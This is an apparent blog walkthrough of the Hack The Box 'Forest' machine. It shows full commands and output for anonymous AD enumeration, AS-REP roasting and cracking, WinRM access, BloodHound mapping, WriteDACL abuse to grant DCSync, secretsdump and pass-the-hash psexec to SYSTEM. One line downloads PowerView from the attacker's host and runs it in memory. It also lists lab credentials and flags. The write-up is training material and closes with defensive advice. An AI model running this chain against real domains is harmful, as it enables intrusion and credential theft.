


import Toggle from '@components/Toggle.astro';
import Callout from '@components/Callout.astro';
import FlagCapture from '@components/FlagCapture.astro';
import AttackPath from '@components/AttackPath.astro';

> AS-REP roasting cracks the svc-alfresco service account, and an Exchange Windows Permissions WriteDACL over the domain turns that foothold into a DCSync for Administrator.

## Recon

> A box named Forest. That word has a specific meaning in Active Directory, and if the name is honest, the way in will not be a website.

First, confirm the host is actually up.

<Toggle label="Host reachability <code>ping</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Forest]
└─> ping 10.129.16.68
PING 10.129.16.68 (10.129.16.68) 56(84) bytes of data.
64 bytes from 10.129.16.68: icmp_seq=1 ttl=127 time=72.8 ms
64 bytes from 10.129.16.68: icmp_seq=2 ttl=127 time=72.8 ms
64 bytes from 10.129.16.68: icmp_seq=3 ttl=127 time=71.0 ms
64 bytes from 10.129.16.68: icmp_seq=4 ttl=127 time=72.8 ms
--- 10.129.16.68 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3015ms
rtt min/avg/max/mdev = 70.966/72.323/72.803/0.783 ms
```

</Toggle>

The `ttl=127` is the first tell: Windows starts at 128, and a hop has already come off it. The scan settles the rest.

<Toggle label="Service & version enumeration <code>nmap</code>">

```bash frame="code" title="Bash" {9,12}
┌──(Idan@Kali)-[~/Forest]
└─> nmap -sC -sV 10.129.16.68
Starting Nmap 7.98 ( https://nmap.org )
Nmap scan report for 10.129.16.68
Host is up (0.088s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m50s, deviation: 4h02m30s, median: 6m49s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   Domain name: htb.local
|_  FQDN: FOREST.htb.local
```

</Toggle>

The host scripts name the box outright: `FOREST`, in `htb.local`, Windows Server 2016. Kerberos and LDAP are open and port 80 is not, so the name checks out.

An aggressive scan pins down the OS version but adds nothing else.

<Toggle label="Aggressive scan, OS detection & extended service enumeration <code>nmap</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> nmap -A 10.129.16.68
Starting Nmap 7.98 ( https://nmap.org )
Nmap scan report for 10.129.16.68
Host is up (0.078s latency).
Not shown: 988 closed tcp ports (reset)
# the same twelve open ports as the -sC -sV run, trimmed
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   70.13 ms 10.10.14.1
2   70.64 ms 10.129.16.68
```

</Toggle>

<Callout type="recon">

- 53/tcp : DNS, Simple DNS Plus
- 88/tcp : Kerberos
- 139/tcp : NetBIOS session service
- 389/tcp : LDAP for `htb.local`
- 445/tcp : SMB, signing required
- 3268/tcp : Global Catalog
- 5985/tcp : WinRM, the remote shell once I have credentials

Everything on that list is a domain controller doing its job, and the only HTTP-based service is WinRM on port 5985, which will not talk to me without a credential. So the directory is the attack surface, and the first question is how much of it answers a stranger.

</Callout>

---

## Domain Enumeration

> With no web to attack, everything depends on what the directory will say to someone who has not logged in. The question is whether anonymous access gives me a foothold.

Two names go into `/etc/hosts`, not one. The short `forest.htb` is habit, but `FOREST.htb.local` is the one that matters, because Kerberos and LDAP tooling addresses a domain controller by its full name rather than its address.

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> sudo nano /etc/hosts
# Add the following line
10.129.16.68   forest.htb FOREST.htb.local
```

I set `autorecon` going in the background and start asking the directory questions myself. The first one is whether it will name its own accounts to somebody who has not logged in.

<Toggle label="Listing domain accounts anonymously <code>rpcclient</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> rpcclient -U "" -N 10.129.16.68 -c enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
# 21 more, all Exchange's own plumbing
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

</Toggle>

Thirty-one accounts, and `-N` means I never offered a password for any of them. By the time `autorecon` finishes it has the same list somewhere in a few hundred files, and the file that holds it names the door that was open.

<Toggle label="Where autorecon had it already <code>grep</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> grep -rl 'svc-alfresco' results/
results/10.129.16.68/scans/tcp139/enum4linux.txt
```

</Toggle>

`enum4linux`, over NetBIOS on port 139, asking the same anonymous question I just asked by hand. Most of what it returned is Exchange talking to itself, so I keep the handful that look like accounts a person would use.

<Toggle label="Saving the account names <code>users.txt</code>">

```bash frame="code" title="Bash" {5}
┌──(Idan@Kali)-[~/Forest]
└─> cat users.txt
lucinda
andy
svc-alfresco
santi
mark
sebastien
Administrator
```

</Toggle>

Seven names, one of them a service account by its prefix alone. That is the shape I want before going anywhere near Kerberos.

---

## Foothold: AS-REP Roasting

> A domain that hands out its user list will often hand out more. If any of these accounts skipped pre-authentication, Kerberos will roast them for me.

### Roasting the User List

I ask the Key Distribution Center (KDC), the part of the domain controller that issues Kerberos tickets, which of these seven it will hand a ticket to without asking for a password first. The empty `-p ''` is the whole point: this is a question anyone is allowed to ask.

<Toggle label="AS-REP roasting the user list <code>netexec</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Forest]
└─> nxc ldap 10.129.16.68 -u users.txt -p '' --asreproast asrep.hashes
LDAP        10.129.16.68    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.16.68    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:4b64285a129fcfebc9668ee61df78c9d$4724ab...5ca581
```

</Toggle>

One of the seven answers, and it answers with a hash. The other six stay silent, which is pre-authentication doing its job.

<Callout type="vuln">

`svc-alfresco` has Kerberos pre-authentication disabled, so the KDC will hand out an AS-REP for it to anyone who asks, and part of that reply is encrypted with a key derived from the account's password. That part is an offline-crackable hash: no interaction with the account, no failed logons, no lockout, just request and crack, though the request itself still lands in the DC's log.

</Callout>

Nothing about that hash matters until I can turn it into a password, and `rockyou.txt`, the password wordlist every Kali install ships with, is where that starts.

<Toggle label="Cracking the AS-REP hash <code>hashcat</code>">

```bash frame="code" title="Bash" {7}
┌──(Idan@Kali)-[~/Forest]
└─> cp asrep.hashes hash.txt
# keep the roast output intact and crack a copy

┌──(Idan@Kali)-[~/Forest]
└─> hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4b64285a129fcfebc9668ee61df78c9d$4724ab...5ca581:s3rvice

Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Time.Started.....: ... (8 secs)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

</Toggle>

Eight seconds, and the service account password falls to a common wordlist.

<Callout type="loot">

- `svc-alfresco` : `s3rvice` (AS-REP roast, cracked from the Kali wordlist)

</Callout>

### A Shell as svc-alfresco

WinRM is open, and a service account is exactly the kind of identity that gets handed a remote shell, so I try the password there first.

<Toggle label="Interactive session <code>evil-winrm</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Forest]
└─> evil-winrm -i 10.129.16.68 -u svc-alfresco -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

</Toggle>

I am on the box as `svc-alfresco`. The user flag is on the desktop, one directory over.

<Toggle label="Reading the user flag <code>type</code>">

```powershell frame="code" title="PowerShell"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
<user flag>
```

</Toggle>

### <span class="task-title">User Flag</span>

<FlagCapture type="user" flag="f7b560191cd5e9bf6cbe8edc61d98ccb" />

---

## Privilege Escalation

> Having the shell is not the same as having somewhere to go with it. Before I start hunting for a path to the domain root, I want to know what this account is already carrying.

### Mapping the Path to Domain Admin

Before reaching for a graph, I ask the shell what it already knows about itself.

<Toggle label="What the token already carries <code>whoami</code>">

```powershell frame="code" title="PowerShell" {14,15,16}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /groups
# trimmed to the five rows that matter
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554
BUILTIN\Remote Management Users            Alias            S-1-5-32-580
BUILTIN\Account Operators                  Alias            S-1-5-32-548
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148
```

</Toggle>

The privileges are nothing: three defaults every account gets. The groups are another matter, and two of them answer questions I had already stopped asking. Remote Management Users is why WinRM let me in. Pre-Windows 2000 Compatible Access is why the DC gave up its account list to a stranger.

The third row is the one that matters. Account Operators is a group `svc-alfresco` was never put in, but a token carries the fully expanded set, so what I am looking at is nesting: Service Accounts sits inside Privileged IT Accounts, which sits inside Account Operators. Nothing about the account itself advertises that.

So the account can create domain users and rewrite group membership. What the token cannot tell me is which groups are worth rewriting, and that is a question about the whole domain rather than this one account.

<Toggle label="Domain mapping <code>bloodhound-python</code>">

```bash frame="code" title="Bash" {4,8}
┌──(Idan@Kali)-[~/Forest]
└─> bloodhound-python -d htb.local -u svc-alfresco -p 's3rvice' -dc FOREST.htb.local -c All -ns 10.129.16.68 --zip
INFO: Found AD domain: htb.local
INFO: Found 2 computers
INFO: Found 32 users
INFO: Found 76 groups
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 36S
INFO: Compressing output into ..._bloodhound.zip
```

</Toggle>

Two computers in the domain, and the one that is not the DC is `EXCH01`. An Exchange install rearranges a domain's permissions on its way in, so that is the name I want the graph to account for when I ask it for a path from `SVC-ALFRESCO@HTB.LOCAL` to `DOMAIN ADMINS@HTB.LOCAL`.


*Two ACL edges are the entire distance between a service account and the domain object. The Contains hops on the right are where the query terminates, not moves I make.*

<Callout type="intel">

The token already showed the membership chain. What the graph adds is what sits on the end of it, and it is two ACL edges:

- Account Operators has `GenericAll` over Exchange Windows Permissions, which is full control of that group, including who is in it.
- Exchange Windows Permissions has `WriteDACL` over the `htb.local` domain object.

Neither edge is a mistake somebody made. Exchange creates the second one at install time, and the first one survives because `AdminSDHolder` only re-stamps the groups AD treats as privileged, and an Exchange group is not on that list.

That second edge is the whole game. Whoever can rewrite the domain's security descriptor can hand any account the replication rights DCSync runs on.

</Callout>

### WriteDACL to DCSync

The plan follows the graph exactly. Account Operators lets me create a domain user and put it in Exchange Windows Permissions, so I make a fresh account, `idan`, instead of repurposing one already in the domain.

<Toggle label="Granting DCSync through Exchange Windows Permissions <code>PowerView.ps1</code>">

```powershell frame="code" title="PowerShell"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user idan Aa123456!1 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" idan /add
The command completed successfully.

# Insurance: a way back in as idan, never actually needed
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" idan /add
The command completed successfully.

# PowerView into memory from my box, then a credential for idan
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> (New-Object System.Net.WebClient).DownloadString('http://10.10.14.87:8000/PowerView.ps1') | IEX
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPass = ConvertTo-SecureString 'Aa123456!1' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\idan', $SecPass)

# The write runs as idan, not as svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity idan -Credential $Cred -Rights DCSync
```

</Toggle>

That `-Credential` is doing real work. The `WriteDACL` belongs to Exchange Windows Permissions, and the account I added to that group is `idan`, not `svc-alfresco`, so the current shell has nothing that can authorize the write. Handing PowerView a credential lets it authenticate separately as that account, with the group membership already in place. Existing logon tokens do not update when group membership changes, which is why adding the service account instead would still have meant opening a new shell.

With the `DS-Replication-Get-Changes` rights in place, `idan` can ask the domain controller to replicate account secrets exactly as another domain controller would, so I go and ask.

<Toggle label="Replicating the domain secrets <code>secretsdump</code>">

```bash frame="code" title="Bash" {5,8}
┌──(Idan@Kali)-[~/Forest]
└─> impacket-secretsdump htb.local/idan:'Aa123456!1'@10.129.16.68
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
# every other account in the domain follows, then the Kerberos keys
[*] Cleaning up...
```

</Toggle>

The first line back is a failure, and it is the one I want to see. `secretsdump` reaches for the local route first, reading the registry hives over SMB, which `idan` has no business doing on a domain controller. So it gives up and falls through to DRSUAPI, the interface domain controllers use to replicate between themselves, and the one thing this account can do. The directory comes out anyway.

<Callout type="loot">

- `Administrator` : `32693b11e6aa90eb43d32c72a07ceea6` (the NT hash, replicated rather than cracked)

</Callout>

That hash is the whole account. The `aad3b4...` half in front of it in the dump is the placeholder every modern account carries where its LM hash used to be, so the second half is the one that authenticates. NTLM only ever proves possession of the hash, never of the password behind it, so I send it straight back to the domain controller that gave it up.

<Toggle label="Pass-the-hash as Administrator <code>psexec</code>">

```bash frame="code" title="Bash" {9}
┌──(Idan@Kali)-[~/Forest]
└─> impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.16.68
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.129.16.68.....
[*] Found writable share ADMIN$
[*] Uploading file BwxnSofz.exe
[*] Opening SVCManager on 10.129.16.68.....
[*] Creating service rPIk on 10.129.16.68.....
[*] Starting service rPIk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

</Toggle>

No password is typed anywhere, and the shell that comes back is not the account I authenticated as. `psexec` writes a binary to `ADMIN$`, registers it as a service and starts it, and a service created without an explicit account runs as `LocalSystem`.


*The uploaded binary and the service both carry names psexec makes up on the spot.*

<Toggle label="Confirming SYSTEM and reading the root flag <code>whoami</code>">

```bash frame="code" title="Bash" {2}
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
<root flag>
```

</Toggle>

### <span class="task-title">Root Flag</span>

<FlagCapture type="root" flag="a98b4c63528d99f08b0c3dd89aca0e11" />

---

## Summary

The whole path in one breath: Forest is a domain controller with no website, and it names all thirty-one of its accounts to an anonymous caller. One of them, `svc-alfresco`, has Kerberos pre-authentication disabled, so the KDC issues a ticket anyone can crack offline, and `rockyou.txt` turns it into the password that opens a WinRM shell. That shell's token already sits inside Account Operators through two nested groups, and BloodHound shows what the group is worth: it controls Exchange Windows Permissions, which can rewrite the domain's own ACL. So I create an account, drop it into that group, and use the group's write to grant myself DCSync. Replicating the directory hands over the Administrator hash, and `psexec` passes it back for SYSTEM and the root flag.

<AttackPath
  title="Attack Path · htb.local"
  nodes={[
    { kind: 'Directory', name: 'FOREST', detail: [ { k: 'role', v: 'the domain controller for <code>htb.local</code>' }, { k: 'flaw', v: 'lists all 31 accounts without a credential' } ] },
    { kind: 'User', name: 'svc-alfresco', edge: '<b>AS-REP roast</b>', detail: [ { k: 'crack', v: 'pre-auth disabled, cracked with <code>hashcat -m 18200</code>' }, { k: 'shell', v: '<code>evil-winrm</code> on port 5985, <code>user.txt</code>' } ] },
    { kind: 'Group', name: 'Account Operators', edge: 'nested <b>MemberOf</b>', detail: [ { k: 'chain', v: 'through Service Accounts, then Privileged IT Accounts' }, { k: 'note', v: 'can create users and edit group membership' } ] },
    { kind: 'Group', name: 'Exchange Windows Permissions', edge: '<b>GenericAll</b>', detail: [ { k: 'why', v: 'not a group AD protects, so its membership is writable' }, { k: 'action', v: 'create user <code>idan</code> and add it to the group' } ] },
    { kind: 'Domain', name: 'htb.local', edge: '<b>WriteDACL</b>', detail: [ { k: 'scope', v: 'the security descriptor of the domain itself' }, { k: 'action', v: 'grant the replication rights to <code>idan</code>' } ] },
    { kind: 'Account', name: 'Administrator', edge: '<b>DCSync</b> as idan', detail: [ { k: 'tool', v: '<code>impacket-secretsdump</code>' }, { k: 'result', v: 'replicated NTLM hash, no cracking' } ] },
    { kind: 'Root', name: 'SYSTEM', edge: '<b>pass-the-hash</b>', detail: [ { k: 'tool', v: '<code>impacket-psexec</code> starts a service, so <code>LocalSystem</code>' }, { k: 'flag', v: '<code>root.txt</code>' } ] },
  ]}
/>

---

## Reflection

Three lessons, one per stage of the chain:

1. **A directory that answers an unauthenticated client is a free user list.** Forest named all thirty-one of its accounts to a null SMB session, and that list is the raw material for AS-REP roasting, spraying, and everything after. The group that allows it is Pre-Windows 2000 Compatible Access, a legacy compatibility group whose permissions still reach into a modern domain.
2. **A disabled pre-authentication flag makes a password crackable offline.** `svc-alfresco` skipped Kerberos pre-auth, so the KDC handed out an offline hash for the asking, and a weak password did the rest. Pre-auth stays on, and service accounts get passwords a wordlist will never hold.
3. **WriteDACL on the domain is domain admin.** The real collapse was an ACL: Exchange Windows Permissions could rewrite the domain's security descriptor, and a low-tier account could join that group because Account Operators had full control of it. The nesting is what makes that easy to miss: a direct membership listing shows what an account was granted, while its token carries everything the nesting adds. Audit the second list.

<Callout type="defense">

Require Kerberos pre-authentication for every account, `svc-alfresco` included, and give service accounts passwords `rockyou.txt` will never hold. Take `WriteDACL` over the domain root away from Exchange Windows Permissions, and stop service accounts reaching Account Operators through a chain of ordinary-looking groups. Any one of those breaks the chain. Emptying Pre-Windows 2000 Compatible Access breaks nothing by itself, but it costs an attacker the list they start from.

</Callout>
